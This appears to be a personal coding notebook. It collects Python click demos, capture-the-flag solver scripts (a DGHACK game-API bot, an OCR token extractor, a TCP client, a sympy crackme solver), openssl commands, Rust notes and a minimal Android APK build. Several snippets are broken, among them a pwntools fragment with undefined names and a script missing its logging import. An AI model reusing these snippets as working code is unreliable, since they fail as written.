#!/usr/bin/env python3
"""Basic click demo."""
import click
@click.command(
context_settings={"help_option_names": ["-h", "--help"]},
help="Basic demo.",
)
@click.argument(
"name",
type=click.STRING,
metavar="NAME ",
)
def main(name: str):
"""Main function."""
click.clear()
click.echo(f"Hello {name} (classic)")
click.secho(f"Hello {name} (fg only)", fg="green")
click.secho(f"Hello {name} (bg only)", bg="yellow")
click.secho(f"Hello {name} (both fg & bg)", fg="red", bg="blue")
if __name__ == "__main__":
main() # pylint: disable=E1120
Prompt
Si un parametre est manquant, on utilise un prompt:
#!/usr/bin/env python3
"""Use prompt for parameter."""
import click
@click.command(
context_settings={"help_option_names": ["-h", "--help"]},
help="Basic demo 2: Use prompt if arguments is missing.",
)
@click.option("-n", "--name", prompt="Your name", help="The person to greet.")
@click.option("-c", "--count", default=1, help="number of greetings")
def main(name: str, count: int):
"""Simple program that greets NAME for a total of COUNT times."""
for _ in range(count):
click.echo(f"Hello, {name}!")
if __name__ == "__main__":
main() # pylint: disable=E11
Parametre du type Path
On utilise un parametre dont les proprietes seront verifier mais dont le resultats sera un string pour permetre de créér un Path
#!/usr/bin/env python3
"""Parse and display data with click.file."""
from typing import Dict, List
from string import ascii_letters
import math
from pathlib import Path
from collections import Counter
import click
def convert_size(size_bytes):
"""Convert size in human readable form."""
if size_bytes == 0:
return "0B"
size_name = ("B", "KB", "MB", "GB", "TB")
i = int(math.floor(math.log(size_bytes, 1024)))
if i >= len(size_name):
return "0B"
p = math.pow(1024, i)
s = round(size_bytes / p, 2)
return f"{s} {size_name[i]}"
@click.command(
context_settings={"help_option_names": ["-h", "--help"]},
help="Basic demo 3: Use click.Path arguments.",
)
@click.argument(
"folder_path",
type=click.Path(exists=True, file_okay=False, dir_okay=True),
metavar="MY_DIRECTORY",
)
@click.argument(
"file_path",
type=click.Path(exists=True, file_okay=True, dir_okay=False),
metavar="MY_FILE",
)
def main(folder_path: str, file_path: str):
"""Main function."""
click.clear()
folder_path = Path(folder_path)
file_path = Path(file_path)
# Display directory
files: List[Path] = folder_path.glob("*.py")
files_details: List[str] = [
f"{x.stem} ({convert_size(x.stat().st_size)})" for x in files
]
click.secho("Glob folder", bg="green")
click.echo("\n".join(files_details))
# File
contains: str = file_path.read_text() # pylint: disable=W1514
stat: Dict[str, int] = Counter(contains)
letter_stat = {k: v for k, v in stat.items() if k in ascii_letters}
letter_stat = sorted(letter_stat.items(), key=lambda x: x[1], reverse=True)
click.secho(f"Letters statstics for {file_path.name}", bg="green")
click.echo("\n".join(f"{x[0]} => {x[1]}" for x in letter_stat))
if __name__ == "__main__":
main() # pylint: disable=E1120
Parametre FILE
Parametre de type FILE. Handle en paramtre.
#!/usr/bin/env python3
"""Read JSON file with Click.file."""
from typing import IO
from json import load
import click
@click.command(
context_settings={"help_option_names": ["-h", "--help"]},
help="Basic demo 4: Use click.File arguments.",
)
@click.argument("json_file", type=click.File(mode="r", encoding="utf-8"))
def main(json_file: IO[str]):
"""Main function."""
click.clear()
json_contains = load(json_file)
click.secho("Json contains", bg="green")
click.echo(json_contains)
if __name__ == "__main__":
main() # pylint: disable=E1120
Parametre Enum/Choice
Utilisation d'un Enum custom pour permettre d'exploiter un choice
#!/usr/bin/env python3
""" Parse file according with parser."""
from typing import IO, Optional
from enum import Enum
import json
import csv
import yaml
import click
class ConfigFormat(Enum):
"""Enum format type."""
YAML = 0
JSON = 1
CSV = 2
TXT = 3
class EnumType(click.Choice):
"""Helper to ;ap Enum <=> click.Choice."""
def __init__(self, enum):
self.__enum = enum
super().__init__(enum.__members__)
def convert(self, value, param, ctx):
return self.__enum[super().convert(value, param, ctx)]
@click.command(
context_settings={"help_option_names": ["-h", "--help"]},
help="Basic demo 5: Use click.Choice arguments.",
)
@click.argument("file_path", type=click.File(mode="r", encoding="utf-8"))
@click.option(
"-f",
"--form",
type=EnumType(ConfigFormat),
default=ConfigFormat.JSON.name,
show_default=True,
help="Select format type of input file",
)
def main(file_path: IO[str], form: ConfigFormat):
"""Parse data from file according with format."""
click.clear()
contains: Optional[str] = None
if form == ConfigFormat.JSON:
contains = json.load(file_path)
elif form is ConfigFormat.YAML:
contains = yaml.safe_load(file_path)
elif form == ConfigFormat.CSV:
spamreader = csv.reader(file_path, delimiter=" ", quotechar="|")
contains = ""
for row in spamreader:
contains += f"{', '.join(row)}\n"
else:
contains = "\n".join(file_path.readlines())
click.secho("File contains", bg="green")
click.echo(contains)
if __name__ == "__main__":
main() # pylint: disable=E1120
Utilidation des group
#!/usr/bin/env python
""" Display some usefull tools available by group."""
import time
import click
@click.group()
def cli():
"""Examples of usefull click utils."""
@cli.command()
def editor():
"""Launch an editor."""
message = click.edit("Prepopulated text")
click.echo(f"Your message: {message}")
@cli.command(name="find-app-dir")
def find_app_dir():
"""Find the appropriate application data folder."""
click.echo(click.get_app_dir("part05"))
@cli.command()
@click.option("--lines", default=7, show_default=True)
def paging(lines: int):
"""Page through output."""
data = "\n".join([f"Line {lines}"])
click.echo_via_pager(data)
@cli.command(name="progress-bar")
@click.option(
"--delay",
help="Step progression delay.",
required=True,
default=0.5,
show_default=True,
)
@click.option("--count", help="", default=10)
def progress_bar(count: int, delay: float):
"""Display a progress bar."""
data = range(count)
with click.progressbar(data) as click_bar:
for _ in click_bar:
time.sleep(delay)
if __name__ == "__main__":
cli() # pylint: disable=E1120
Get and Post
Un petit programme pour faire des requetes GET et POST en python.
Ce script est la solution au CTF DGHACK 2023 pour le chall de dev Feed This Dragon
#! /usr/bin/env python
import sys
from typing import Callable, List, Dict
from uuid import uuid1
from functools import partial
from dataclasses import dataclass
from pydantic import BaseModel
import requests
console_handler = logging.StreamHandler()
console_handler.setLevel(logging.INFO)
file_handler = logging.FileHandler("log.txt")
file_handler.setLevel(logging.DEBUG)
logger = logging.getLogger()
logger.setLevel(logging.DEBUG)
logger.addHandler(console_handler)
logger.addHandler(file_handler)
URL = "http://feedthisdragon4.chall.malicecyber.com/api/v1"
TRAP: List[str] = ["bomb"]
FOOD: List[str] = ["veggy", "candy", "burger", "food"]
BOOS: List[str] = ["lilboo", "midboo", "bigboo"]
LIFE: List[str] = ["life"]
FOX: List[str] = ["fox"]
MONEY: List[str] = ["coin", "gem"]
SECRET: List[str] = ["secret", "nyan"]
@dataclass
class NextPost:
"""Next item to click."""
item: str = ""
shop: str = ""
class Achievement(BaseModel):
"""Achievements form."""
acquired: bool
color: str
description: str
name: str
slug: str
uuid: str
class Item(BaseModel):
"""Items data."""
type: str
uuid: str
x: int
y: int
class Upgrade(BaseModel):
"""Upgrade data."""
cost: int
description: str
level: int
name: str
slug: str
uuid: str
class GameResponse(BaseModel):
"""Game response"""
achievements: List[Achievement]
bag: int
coin: int
health: int
hunger: int
hunger_actual: int
hunger_needed: int
items: List[Item]
level: int
max_health: int
upgrades: List[Upgrade]
uuid: str
def format_header(*, uuid: str, update: str, itemUuid: str = "", shopUuid: str = ""):
"""Format post header."""
header = {
# "Content-Type": "application/json; charset=utf-8",
"Cookie": f"uuid={uuid}",
"Authorization": "mynotsosecrettoken",
"Session": uuid,
"Update": update,
"ItemUuid": itemUuid,
"ShopUuid": shopUuid,
}
return header
def extract_items(game_map: GameResponse) -> Dict[str, List[str]]:
"""Allow to extract items information."""
available_items = {}
for item in game_map.items:
key = item.type
available_items.setdefault(key, []).append(f"[{item.x},{item.y}]")
return available_items
def get_strategy(game_map: GameResponse) -> List[Callable[[GameResponse], NextPost]]:
"""Apply correct strategies."""
strategies: List[Callable[[GameResponse], NextPost]] = []
if not game_map.items:
return strategies
# Map status
not_achieved = [i.slug for i in game_map.achievements if not i.acquired]
# [STRATEGY] Achievement Saw
# saw => Why are those items so far from the screen
if "saw" in not_achieved:
strategies.append(find_item_coordinate)
# [STRATEGY] Achievement 'Secret'
if "secret" in not_achieved:
strategies.append(partial(find_item, SECRET))
# [STRATEGY] Achievement hurt
if "hurt" in not_achieved:
strategies.append(partial(find_item, TRAP))
else:
# [STRATEGY] Kill Boos
strategies.append(partial(find_item, BOOS))
# [STRATEGY] Health
if game_map.health <= 2:
if game_map.coin == 0:
strategies.append(partial(find_item, MONEY))
else:
strategies.append(partial(find_item, LIFE))
strategies.append(partial(upgrades, "Hard"))
# [STRATEGY] Achievement Fatter
if "fatter" in not_achieved or "bigger" in not_achieved:
strategies.append(partial(find_item, FOOD))
strategies.append(partial(upgrades, "Feed"))
# [STRATEGY] Achievement money
if "gold" in not_achieved:
strategies.append(partial(find_item, MONEY))
strategies.append(partial(upgrades, "Greed"))
if game_map.bag < 10000:
strategies.append(partial(upgrades, "Bag"))
logger.debug("strategies =>")
for idx, strategy in enumerate(strategies):
logger.debug(f"\t- [{idx}] {strategy}")
return strategies
def find_item_coordinate(game_map: GameResponse) -> List[NextPost]:
"""Strategy find item."""
next_list: List[NextPost] = []
for item in game_map.items:
if item.x > 100 or item.y > 100:
return [NextPost(item=item.uuid)]
return next_list
def find_item(ref_label: List[str], game_map: GameResponse) -> List[NextPost]:
"""Strategy find item."""
next_list: List[NextPost] = []
for item in game_map.items:
if item.type in ref_label:
next_list.append(NextPost(item=item.uuid))
if not next_list:
logger.debug(f"\tNothing like {ref_label}.")
return next_list
def upgrades(ref_label: str, game_map: GameResponse) -> List[NextPost]:
"""Strategy Upgrade."""
for item in game_map.upgrades:
if item.name == ref_label:
return [NextPost(shop=item.uuid)]
logger.debug("\tNothing like %s", ref_label)
return []
def get_map_info(cur_game: GameResponse):
"""Display map info."""
logger.info("\n")
logger.info("-" * 20)
logger.info(f"Level: {cur_game.level}")
logger.info(f"Health: {cur_game.health}")
logger.info(f"Hunger: {cur_game.hunger}")
logger.info(f"Hunger actual: {cur_game.hunger_actual}")
logger.info(f"Hunger needed: {cur_game.hunger_needed}")
logger.info(f"bag => {cur_game.bag}")
logger.info(f"coin => {cur_game.coin}")
available_items = extract_items(game_map=cur_game)
formatted = "| ".join(
[f"{k} ({len(v)}): {','.join(v)}" for k, v in available_items.items()]
)
logger.debug(f"Items: {formatted}")
# logger.debug(f"Upgrades: {cur_game.upgrades}")
achievements: List[str] = [
f"{achievement.slug}"
for achievement in cur_game.achievements
if not achievement.acquired
]
logger.info(f"Achievements: {'| '.join(achievements)}")
return len(achievements) == 0
def get_request(*, uuid: str, update: str) -> List[NextPost]:
"""Get request to send."""
# Send POST request with JSON data using the json parameter
response = requests.get(URL, headers=format_header(uuid=uuid, update=update))
if response.status_code != 200:
logger.error("Error invalid request")
# Print the response
cur_game = None
try:
cur_game = GameResponse.model_validate(response.json())
logger.debug(response.json())
except:
logger.error("!!!!!!!!!!!!!! Crash !!!!!!!!!!!!!!!")
logger.error(response.json())
sys.exit(1)
# Display map
done = get_map_info(cur_game)
if done:
logger.info("<<<<<<<<<<<<<<<<<<<<<<< DONE >>>>>>>>>>>>>>>>>>>>>>>>>")
return []
# Next pos list
next_list: List[NextPost] = []
# done if dead
if cur_game.health <= 0:
logger.error("!!! You dead !!!")
return sys.exit(1)
strategies = get_strategy(cur_game)
for idx, fct in enumerate(strategies):
logger.debug(f"=> Apply {fct}")
if next_pos := fct(cur_game):
logger.debug(f"\tSuccess {idx}")
next_list += next_pos
else:
logger.debug(f"\tFailed {idx}")
return next_list
def post_request(*, uuid: str, itemUuid: str, shopUuid: str):
"""Post request."""
# Send POST request with JSON data using the json parameter
response = requests.post(
URL,
headers=format_header(
uuid=uuid, update="true", itemUuid=itemUuid, shopUuid=shopUuid
),
)
logger.debug(f"Post Answer => {response.json()}")
if __name__ == "__main__":
NEW_GAME_UUID = str(uuid1())
# Init party
logger.info("[Initialize new gameStart new game]")
_ = get_request(uuid=NEW_GAME_UUID, update="false")
logger.info("[Start challenge]")
while True:
next_post_list = get_request(uuid=NEW_GAME_UUID, update="true")
if not next_post_list:
continue
# _ = input("Post request\n")
logger.debug(f"Post Items => {next_post_list}")
for pos in next_post_list:
post_request(uuid=NEW_GAME_UUID, itemUuid=pos.item, shopUuid=pos.shop)
Token from movie
Mise en place des dépendances
$ sudo apt update
$ sudo apt install tesseract-ocr
$ sudo apt install libtesseract-dev
$ sudo apt install tesseract-ocr-eng
$ pip install Pillow
$ pip install pytesseract
$ pip install wand
$ pip install opencv-python
Extraction d'un token à partir d'une video
#! /usr/bin/env python3
import re
import sys
from PIL import Image
import pytesseract
from wand.image import Image as Img
from pathlib import Path
import cv2
import click
# Pattern to be find
PATTERN = re.compile(r"([0-9]{4})", re.IGNORECASE)
def rm_tree(pth: Path):
"""Remove recursive of folder."""
if not pth.exists():
return
for child in pth.glob("*"):
if child.is_file():
child.unlink()
else:
rm_tree(child)
pth.rmdir()
def setup(movie_path: Path):
"""Clean temporary folder"""
rm_tree(movie_path)
movie_path.mkdir()
def files(movie_path: Path, working_area: Path) -> cv2.VideoCapture:
"""Read video."""
setup(working_area)
# specify the source video path
src_vid = cv2.VideoCapture(str(movie_path))
return src_vid
def process(src_video: cv2.VideoCapture, rate, working_area: Path):
"""Process video."""
# Check if file is open
if not src_video.isOpened():
print("[!] Video stream is closed")
sys.exit(1)
# Integer name file
index = 0
while src_video.isOpened():
ret, frame = src_video.read()
if not ret:
break
# name each frame and save s png
name = Path(working_area) / Path(f"frame{index}.png")
#
# Save every rate th
if not (index % rate):
cv2.imwrite(str(name.absolute()), frame)
index += 1
if cv2.waitKey(10) & 0xFF == ord('q'):
break
src_video.release()
cv2.destroyAllWindows()
def get_token(working_area: Path) -> str:
"""Looking for token."""
for pic in Path(working_area).glob("*.png"):
cur_pic = Image.open(str(pic.absolute()))
text = pytesseract.image_to_string(cur_pic, lang='eng')
if "code" in text:
text = text.replace("\n", "")
res = PATTERN.findall(text)[0]
return f"{res}"
return ""
@click.command(
context_settings={"help_option_names": ["-h", "--help"]},
help="Extract token from pictures.",
)
@click.argument(
"movie_path",
type=click.Path(exists=True, file_okay=True, dir_okay=False),
metavar="MOVIE_PATH",
)
@click.option(
"--rate",
default=100,
help="Rate of picture to extract text.",
show_default=True
)
@click.option(
"--working_area",
type=click.Path(exists=False, file_okay=False, dir_okay=True),
default="image_frames",
help="Temporary folder.",
show_default=True
)
def find_token(movie_path: str, rate: int, working_area: str):
working_area = Path(working_area)
vid = files(Path(movie_path), working_area)
process(vid, rate, working_area)
print("[+] Token for %s => '%s'", movie_path, get_token(working_area))
if __name__ == "__main__":
find_token() # pylint: disable=E1120
Utilisation
> ./script.py --rate 10 ./movie.mp4
Token for ./movie.mp4 => 'XXXX'
Get and Post
Simple petit script pour résoudre un challenge mis à dispo. par un server.
Server
#!/usr/bin/env python3
"""
TCP challenge helper
"""
from typing import Optional
import socket
from functools import partial
import click
# ------------------------- [SERVER] -------------------------#
class Server:
"""
Server object to keep socker open.
"""
def __init__(self, host: str, port: int):
self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
click.echo(f"Open new socket {host}:{port}")
self.socket.connect((host, port))
click.echo(f"Connection on {port}")
def send_answer(self, answer: str) -> str:
"""Send answer then return server answer."""
click.echo(f"Send answer: {answer}")
self.socket.sendall(answer.encode("utf-8"))
return self.receive_data()
def receive_data(self) -> str:
"""Receive data."""
click.echo("Call receive data")
data = self.socket.recv(1024).decode("utf-8")
click.echo(f"Received '{repr(data)}'")
return data
# ------------------------- [COMMANDS] -------------------------#
def entry_point(server, _) -> str:
"""First call to starting challenge"""
incoming_data = server.receive_data()
click.echo(f"Challenge to solve : '{incoming_data}'")
return incoming_data
# ------------------------- [BODY] -------------------------#
@click.command(
context_settings={"help_option_names": ["-h", "--help"]},
help="Tcp Challenge solver",
)
@click.option("--host", type=click.STRING, help="Domain name.", required=True)
@click.option("--port", type=click.INT, help="TCP port.", required=True)
@click.option(
"--stop_condition", type=click.STRING, help="String to detect to stop running"
)
def start_challenge(host: str, port: int, stop_condition: Optional[str]):
"""Starting point to solve challenge."""
click.clear()
click.echo(f"Connect to server {host}:{port}")
server = Server(host, port)
# Define list of command
commands = [
partial(entry_point, server),
# List of command like
# partial(fct, server),
]
# Receive challenge
previous_answer = ""
flag = None
for fct in commands:
previous_answer = fct(previous_answer)
if stop_condition and stop_condition in previous_answer:
flag = previous_answer
break
if not flag:
flag = previous_answer
click.echo(f"[🏆] '{flag}'")
if __name__ == "__main__":
start_challenge() # pylint: disable=no-value-for-parameter
Here are some snippet command
- Use regular expression and math
import re
import math
def use_regexp_math(server, input_data: str) -> str:
"""Use RegExp and math"""
click.echo(f"Challenge to solve : '{input_data}'")
# Get number
regexp = re.compile(
"Number to sqrt ([0-9]*) and multiple by ([0-9]*)"
)
match = re.search(regexp, input_data)
to_sqrt_nbr = int(match.group(1))
multi_nbr = int(match.group(2))
# Compute
result = math.sqrt(multi_nbr)
click.echo(f"Square of {multi_nbr} {result}")
result *= multi_nbr
click.echo(f"Result {result}")
result = round(result, 2)
click.echo(f"Round result {result}")
# Send result
return server.send_answer(f"{str(result)}\n")
- Use base64 and zlib
import base64
import zlib
def ub64_and_zlib_decompress(server, input_data: str) -> str:
"""Decompress after debase 64 strings"""
msg = input_data.split("'")[1]
click.echo(f"Message to decode => '{msg}'")
result = zlib.decompress(base64.b64decode(msg))
answer = server.send_answer(f"{str(result)}\n")
click.echo(f"Answer => '{answer}'")
return answer
- Use split
def split_and_collect(server, input_data):
"""Split part of input the format."""
click.echo("Use split")
nbrs = input_data[1:-2].split(",")
order_nbrs = sorted(map(int, nbrs))
orders_input_data = [str(s) for s in order_nbrs]
res = f"[{','.join(orders_input_data)}]"
# Result
click.echo(f"Result '{res}'")
return server.send_answer(f"{res}")
Simple HTTP(s) server with Gunicor and Flask
Code
Gunicorn HTTPs certificate and keys
$ gunicorn wsgi:app \
--bind 0.0.0.0:8080 \
--log-level=debug \
--workers=4 \
--keyfile private_key.pem \
--certfile certificate.pem
Generate certificate and key for test
- Creating a Private Key
# 3DES encrypted
$ openssl genrsa -des3 -out domain.key 2048
# unencrypted
$ openssl genrsa -out domain.key 2048
- Creating a Certificate Signing Request (CSR)
$ openssl req -key domain.key -new -out domain.csr
An important field is “Common Name,” which should be the exact Fully Qualified Domain Name (FQDN) of our domain.
“A challenge password” and “An optional company name” can be left empty.
One line Private Key and CSR
# 3DES encrypted
$ openssl req -newkey rsa:2048 -keyout domain.key -out domain.csr
# unencrypted
$ openssl req -newkey rsa:2048 -nodes -keyout domain.key -out domain.csr
- Creating a Self-Signed Certificate
$ openssl x509 -signkey domain.key -in domain.csr -req -days 365 -out domain.crt
Our certificate (domain.crt) is an X.509 certificate that’s ASCII PEM-encoded.
Here is the one line to create private key and a self-signed certificate (CSR tmp will be created)
$ openssl req -newkey rsa:2048 -keyout domain.key -x509 -days 365 -out domain.crt
- View certificat
$ openssl x509 -text -noout -in domain.crt
Use pwntool for server challenge solver
#!/usr/bin/env python3
from pwn import *
r = remote('challenge01.root-me.org', 52022)
io = process(['echo', 'hi'])
io.recvline()
msg = input.split("\'")[1]
print(f"Message to decode => '{msg}'")
result = zlib.decompress(base64.b64decode(msg))
answer = server.send_answer(f"{str(result)}\n")
Solve equations with different unknown
#!/usr/bin/env python3
"""Solve
<JAVA>
char c = charArray[0];
char c2 = charArray[3];
char c3 = charArray[6];
if (c + c2 + c3 == 154) {
char c4 = charArray[1];
char c5 = charArray[4];
char c6 = charArray[7];
if (c4 + c5 + c6 == 159) {
char c7 = charArray[2];
char c8 = charArray[5];
char c9 = charArray[8];
if (c7 + c8 + c9 == 156) {
char c10 = charArray[9];
char c11 = charArray[12];
char c12 = charArray[15];
if (c10 + c11 + c12 == 169) {
char c13 = charArray[10];
char c14 = charArray[13];
char c15 = charArray[16];
if (c13 + c14 + c15 == 152) {
char c16 = charArray[11];
char c17 = charArray[14];
char c18 = charArray[17];
if (c16 + c17 + c18 == 155) {
char c19 = charArray[18];
char c20 = charArray[19];
bool = false;
if (c19 + c20 == 107 && c + c5 + c9 == 156 && c7 + c5 + c3 == 159 && c10 + c14 + c18 == 155 && c16 + c14 + c12 == 155 && c + c10 + c19 == 163 && c2 + c11 + c20 == 159 && c3 + c12 == 108 && c4 + c + c7 == 152 && c2 + c5 + c8 == 166 && c3 + c6 + c9 == 151 && c13 + c10 + c16 == 154 && c11 + c14 + c17 == 161 && c12 + c15 + c18 == 161 && c + '\n' == 59 && c6 + '\n' == 60 && c10 + '\n' == 67 && c19 + '\n' == 67 && c8 + c6 == 105 && c17 + c18 == 106)
<\JAVA>
"""
from sympy import symbols, Eq, solve
code = ['x']*20
# Déclaration des variables
c1, c2, c3, c4, c5, c6, c7, c8, c9, c10, c11, c12, c13, c14, c15, c16, c17, c18, c19, c20 = symbols('c1 c2 c3 c4 c5 c6 c7 c8 c9 c10 c11 c12 c13 c14 c15 c16 c17 c18 c19 c20')
code_map = {
c1: 0,
c2: 3,
c3: 6,
c4: 1,
c5: 4,
c6: 7,
c7: 2,
c8: 5,
c9: 8,
c10: 9,
c11: 12,
c12: 15,
c13: 10,
c14: 13,
c15: 16,
c16: 11,
c17: 14,
c18: 17,
c19: 18,
c20: 19
}
# equation list
equations = [
Eq(c7 + c8 + c9, 156),
Eq(c10 + c11 + c12, 169),
Eq(c13 + c14 + c15, 152),
Eq(c16 + c17 + c18, 155),
Eq(c4 + c5 + c6, 159),
Eq(c1 + c2 + c3, 154),
Eq(c19 + c20, 107 ),
Eq(c1 + c5 + c9, 156 ),
Eq(c7 + c5 + c3, 159 ),
Eq(c10 + c14 + c18, 155 ),
Eq(c16 + c14 + c12, 155 ),
Eq(c1 + c10 + c19, 163 ),
Eq(c2 + c11 + c20, 159 ),
Eq(c3 + c12, 108 ),
Eq(c4 + c1 + c7, 152 ),
Eq(c2 + c5 + c8, 166 ),
Eq(c3 + c6 + c9, 151 ),
Eq(c13 + c10 + c16, 154 ),
Eq(c11 + c14 + c17, 161 ),
Eq(c12 + c15 + c18, 161 ),
Eq(c1 + 10, 59 ),
Eq(c6 + 10, 60 ),
Eq(c10 + 10, 67 ),
Eq(c19 + 10, 67 ),
Eq(c8 + c6, 105 ),
Eq(c17 + c18, 106),
]
# solve system
solutions = solve(equations)
print(f"Solution => {solutions}")
Rust
Setup rust 💻
- Install the Rust toolchain.
- (recommended) Install the rust-analyzer extension for your code editor.
- (optional) Install a native debugger. If you are using VS Code, CodeLLDB is a good option.
Use VS Code to debug your code
- Install rust-analyzer and CodeLLDB.
- Set breakpoints in your code.
- Click Debug next to the unit test or the main function.
- The debugger will halt your program at the specific line and allow you to inspect the local stack.
Useful Tools
Useful crates
-
itertools: Extends iterators with extra methods and adaptors. Frequently useful for aoc puzzles.
-
regex: Official regular expressions implementation for Rust.;
-
chrono: The most comprehensive and full-featured datetime library, but more complex because of it.
-
serde: De facto standard serialization library. Use in conjunction with sub-crates like serde_json for the specific format that you are using.
-
anyhow: Provides a boxed error type that can hold any error, and helpers for generating an application-level stack trace.
-
thiserror: Helps with generating boilerplate for enum-style error types.
Crates
A curated list of popular crates can be found on blessred.rs.
Snippets
Some useful snippet code from AOC (Advent Of Code)
| Folder | Tags | Description |
|---|---|---|
| Example | Module 1 | BlaBlaBla. |
| Theme |
Exemple of error management
Good reference: Designing error types in Rust
TCP Echo project
Project
├── Cargo.toml
├── index.html
└── src
├── error.rs
├── lib.rs
└── main.rs
- Cargo.toml
[package]
name = "tcp_echo"
version = "0.1.0"
edition = "2021"
[dependencies]
- index.html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Rust</title>
</head>
<body>
<h1>Hello World!</h1>
</body>
</html>
- error.rs
#[derive(Debug)]
pub enum AppError {
Io(std::io::Error),
Utf8(std::string::FromUtf8Error),
General(String),
}
impl std::fmt::Display for AppError {
fn fmt(&self, f: &mut std::fmt::Formatter<'_>) -> std::fmt::Result {
match self {
AppError::Io(e) => write!(f, "IO error: {}", e),
AppError::Utf8(e) => write!(f, "UTF-8 error: {}", e),
AppError::General(s) => write!(f, "General error: {}", s),
}
}
}
impl From<std::io::Error> for AppError {
fn from(e: std::io::Error) -> Self {
Self::Io(e)
}
}
impl From<std::string::FromUtf8Error> for AppError {
fn from(e: std::string::FromUtf8Error) -> Self {
Self::Utf8(e)
}
}
pub type AppResult<T> = Result<T, AppError>;
- lib.rs
pub mod error;
- main.rs
use std::io::BufReader;
use std::io::prelude::*;
use std::net::TcpListener;
use std::net::TcpStream;
use tcp_echo::error::AppResult;
fn main() {
match start_server("127.0.0.1:8080") {
Ok(_) => println!("Server ending"),
Err(_) => println!("Server failed"),
}
}
fn start_server(url: &str) -> AppResult<()> {
let listener = TcpListener::bind(url)?;
println!("Listening on port 8080");
for stream in listener.incoming() {
let stream = stream?;
println!("Connection established!");
handle_connection(stream);
}
Ok(())
}
fn handle_connection(mut stream: TcpStream) {
let buf_reader = BufReader::new(&mut stream);
let http_request: Vec<_> = buf_reader
.lines()
.map(|result| result.unwrap())
.take_while(|line| !line.is_empty())
.collect();
println!("Request: {:#?}", http_request);
}
▄▄▄▄ ██ ██
██▀▀██ ██ ▀▀ ▀▀
██ ██ ██▄███▄ ███████ ████ ████▄██▄ ████ ████████
██ ██ ██▀ ▀██ ██ ██ ██ ██ ██ ██ ▄█▀
██ ██ ██ ██ ██ ██ ██ ██ ██ ██ ▄█▀
██▄▄██ ███▄▄██▀ ██▄▄▄ ▄▄▄██▄▄▄ ██ ██ ██ ▄▄▄██▄▄▄ ▄██▄▄▄▄▄
▀▀▀▀ ██ ▀▀▀ ▀▀▀▀ ▀▀▀▀▀▀▀▀ ▀▀ ▀▀ ▀▀ ▀▀▀▀▀▀▀▀ ▀▀▀▀▀▀▀▀
██
██
██ ▀▀
▄█████▄ ███████ ████ ▄████▄ ██▄████▄
▀ ▄▄▄██ ██ ██ ██▀ ▀██ ██▀ ██
▄██▀▀▀██ ██ ██ ██ ██ ██ ██
██▄▄▄███ ██▄▄▄ ▄▄▄██▄▄▄ ▀██▄▄██▀ ██ ██
▀▀▀▀ ▀▀ ▀▀▀▀ ▀▀▀▀▀▀▀▀ ▀▀▀▀ ▀▀ ▀▀
TOML file
[package]
name = "ApplicationNAme"
version = "0.0.1"
edition = "2021"
publish = false
[lib]
crate-type = ["cdylib", "lib"]
[[bin]]
name = "app_bin"
path="./path/to/bin_main.rs"
[profile.release]
# Disable debug
debug=false
# Optimization Level
opt-level = 's'
# Link Time Optimization (LTO)
lto = true
# Parallel Code Generation Units
codegen-units = 1
# Strip source code
strip = true
# Compilation behavior.
panic = "abort"
[profile.dev]
# Incremental compilation
incremental = true
# Disable debug
debug=false
# Optimization Level
opt-level = 0
# Link Time Optimization (LTO)
lto = true
# Parallel Code Generation Units
codegen-units = 1
# Strip source code
strip = true
# Compilation behavior.
panic = "unwind"
# Production App. dependencies
[dependencies]
# Dev App. dependencies
[dev-dependencies]
Crates optimization
Crates size
- Get
cratesize
# After comment 'strip option'
$ cargo bloat --crates --release
- Duplicate crates
$ cargo tree --duplicates -e=no-dev
- Graph dependencies
cargo depgraph | dot -Tpng > graph.png
Minimal project in JAVA to create APK
Minimal requirement to create APK
Archive: Project Template
Project Structure
ProjectFolder
├── app
│ └── src
│ └── main
│ ├── AndroidManifest.xml
│ ├── java
│ │ └── com
│ │ └── example
│ │ └── myapp
│ │ ├── MainActivity.java
│ │ └── MainApp.java
│ └── res
│ └── values
│ └── values.xml
└── Makefile
Files contains
- AndroidManifest.xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.example.myapp">
<uses-sdk android:minSdkVersion="30" android:targetSdkVersion="34" />
<application
android:label="@string/myAppName">
<activity
android:name="com.example.myapp.MainActivity"
android:exported="true">
<intent-filter>
<action android:name="android.intent.action.MAIN" />
<category android:name="android.intent.category.LAUNCHER" />
</intent-filter>
</activity>
</application>
</manifest>
- MainActivity.java
package com.example.myapp;
import android.os.Bundle;
import java.lang.reflect.Method;
import android.app.Activity;
import android.content.Intent;
import android.util.Log;
import android.widget.TextView;
public class MainActivity extends Activity {
public final static String TAG = "APP_AG";
@Override
protected void onCreate(Bundle savedInstanceState) {
Log.i(TAG, "MainActivty called!");
super.onCreate(savedInstanceState);
TextView textView = new TextView(this);
String text = getResources().getString(R.string.welcomeText);
textView.setText(text);
setContentView(textView);
}
}
- MainApp.java
package com.example.myapp;
import android.app.Application;
import android.util.Log;
public class MainApp extends Application {
@Override
public void onCreate() {
super.onCreate();
Log.e("MyApp", "MyApp Application Start!\n");
}
@Override
public void onTerminate() {
super.onTerminate();
}
}
- values.xml
<?xml version="1.0" encoding="utf-8"?>
<resources>
<string name="myAppName">MyApp example test</string>
<string name="welcomeText">Welcome to my App 👋</string>
</resources>
- Makefile
PROJECT=MyPersonalProject
ANDROID=/home/user/Android
SDK=$(ANDROID)/Sdk
ANDROIDJAR=$(SDK)/platforms/android-34/android.jar
JAVA_FILES=app/src/main/java/com/example/myapp/*.java
RES_DIR=app/src/main/res
JAVA_SRC_DIR=app/src/main/java
MANIFEST=app/src/main/AndroidManifest.xml
BUILD_TOOLS_VERSION=33.0.2
KS_PASSWORD=myincredilbylongpasswordlol
# Tools
D8=$(SDK)/build-tools/$(BUILD_TOOLS_VERSION)/d8
AAPT=$(SDK)/build-tools/$(BUILD_TOOLS_VERSION)/aapt
ZIPALIGN=$(SDK)/build-tools/$(BUILD_TOOLS_VERSION)/zipalign
APKSIGNER=$(SDK)/build-tools/$(BUILD_TOOLS_VERSION)/apksigner
BUILD_DIR=build
KEYSTORE=$(BUILD_DIR)/tmp_key_store.ks
TARGET=$(PROJECT).apk
all: $(TARGET)
# Generate keystore to build the APK
$(KEYSTORE):
keytool -genkey -v -keystore $@ -storepass $(KS_PASSWORD) -alias myapp_keystore -keyalg RSA -keysize 4096 -validity 10000
# Build res java files
res:
$(AAPT) package \
-f \
-m \
-M $(MANIFEST) \
-S $(RES_DIR) \
-J $(JAVA_SRC_DIR) \
